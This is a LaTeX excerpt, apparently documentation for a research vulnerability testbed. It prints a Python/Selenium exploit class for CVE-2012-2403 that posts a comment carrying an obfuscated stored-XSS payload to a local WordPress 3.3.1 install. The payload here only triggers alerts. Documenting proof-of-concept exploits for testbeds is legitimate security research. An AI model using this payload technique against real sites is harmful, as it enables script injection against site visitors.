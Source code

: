 \documentclass[letterpaper,twocolumn,10pt]{article}
\begin{document}
\subsection{Exploit}

Management actions, recording commands
attributes,
\begin{verbatim} 
__init__()
exploit()
check() [not yet]
cleanup()
\end{verbatim}

{\tt \small
\begin{figure}[!ht]
\begin{verbatim}
import corpus

class Exploit (corpus.Exploit):

    def __init__(self):
        corpus.Exploit.__init__(self, {
                'Name' :        "CVE_2012_2403",
                'Description' : "Creates a post containing a XSS payload.",
                'References' :  [['CVE','2012-2403'],
                                 ['OSVDB','81463']],
                'Target' :      "Wordpress 3.3.1",
                'Type' :        "XSS",
                'VulWikiPage' : "http://seamster.cs.umd.edu/CVE-2012-2403"
                })
        return
            
    def exploit(self):

        payload = "<a href=\"#\" title=\"XSS http://example.com/onmouseover"
                  "=eval(unescape(/%61%6c%65%72%74%28%31%29%3b%61%6c%65%72"
                  "%74%28%32%29%3b%61%6c%65%72%74%28%33%29%3b/.source))//\"
                  ">XSS</a>"

        driver = self.create_selenium_driver()
        driver.get("http://localhost/wordpress/?p=1")
        driver.find_element_by_id("author").clear()
        driver.find_element_by_id("author").send_keys("selenium script")
        driver.find_element_by_id("email").clear()
        driver.find_element_by_id("email").send_keys("selenium@python.org")
        driver.find_element_by_id("url").clear()
        driver.find_element_by_id("url").send_keys("www.python.org")
        driver.find_element_by_id("comment").clear()
        driver.find_element_by_id("comment").send_keys(payload)
        driver.find_element_by_id("submit").click()
        driver.cleanup()

        return

if __name__ == "__main__": # Exploit invoked from command-line
    engine = corpus.Engine(Exploit())
    engine.parse_args(sys.argv)
\end{verbatim}
\end{figure}
}
\end{document}
